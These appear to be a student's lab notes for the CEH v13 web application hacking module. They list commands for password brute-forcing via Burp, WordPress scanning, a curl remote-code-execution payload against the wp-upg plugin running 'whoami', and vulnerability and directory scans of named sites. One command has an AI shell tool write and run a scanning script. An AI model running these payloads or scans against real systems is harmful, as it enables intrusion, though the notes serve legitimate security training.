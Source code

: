 Then click load---> navigate to the location /home/attacker/Desktop/CEHv13 Module 14 Hacking Web Applications/Wordlist, select the password.txt file, and click the Open button.selected password.txt file
START ATTACK
After the progress bar completes, scroll down and observe the different values of Status and Length. Here, Status=302 and Length= 1155.
Then click Intercept is off and set proxy setting to default

3. Perform Remote Code Execution (RCE) Attack

wpscan --url http://10.10.1.22:8080/CEH --api-token [API Token from https://wpscan.com]
RCE vulnerability plugin name is wp-upg
To perform RCE attack, run ---> 
curl -i 'http://10.10.1.22:8080/CEH/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL'

4. Detect Web Application Vulnerabilities using Wapiti Web Application Security Scanner
The Wapiti web-application vulnerability scanner identifies security weaknesses in web applications by crawling websites and performing black-box testing. It detects issues like SQL injections, XSS, and other vulnerabilities.
cd wapiti
python3 -m venv wapiti3
. wapiti3/bin/activate
pip install .
wapiti -u https://www.certifiedhacker.com  ---> to perform web application security scanning on certifiedhacker.com website.
 cd /root/.wapiti/generated_report/ to navigate to generated_report directory.
 firefox certifiedhacker.com_xxxxxxxx_xxxx.html

Nessecary commands:
Check if the target url www.certifiedhacker.com has web application firewall  ---->
nmap -p 80,443 --script http-waf-detect www.goodshopping.com.
Check if the target url https://www.certifiedhacker.com is protected with web application firewall using wafwoof --->
wafw00f https://certifiedhacker.com
Use load balancing detector on target domain yahoo.com.---->
lbd yahoo.com
Launch whatweb on the target website www.moviescope.com to perform website footprinting----> 
whatweb -v www.moviescope.com | tee whatweb_log.txt
Perform the Vulnerability scan on the target url www.moviescope.com using nmap --->
nmap --script vuln www.moviescope.com
Use Sn1per tool and scan the target url www.moviescope.com for web vulnerabilities---->
sniper -t www.moviescope.com -w scan.txt
Scan the web content of target url www.moviescope.com using Dirb----->
dirb www.moviescope.com
Scan the web content of target url www.moviescope.com using Gobuster----->
gobuster dir -u  www.moviescope.com -w [wordlists]
gpt --chat wah --shell "create and run a custom script for web application footprinting and vulnerability scanning. The target url is www.certifiedhacker.com"

													LAB14. SQL Injection	

1. SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
